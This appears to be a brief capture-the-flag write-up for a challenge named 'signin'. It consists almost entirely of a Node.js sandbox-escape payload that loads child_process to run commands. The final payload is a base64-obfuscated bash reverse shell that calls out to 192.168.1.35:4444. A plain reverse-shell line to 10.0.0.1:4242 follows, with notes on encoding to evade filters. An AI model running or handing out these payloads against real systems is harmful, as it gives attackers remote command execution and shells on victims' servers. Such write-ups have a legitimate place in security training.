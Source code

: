 ## signin

You can't use require  but u can use global.process.mainModule.constructor._load('child_process').exec('calc')

finally payload

```
global.process.mainModule.constructor._load('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzUvNDQ0NCAwPiYx|base64 -d|bash');
```

Remark:
1. encode bash reverse shell using Base64
```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```
2. url encode the Base64 string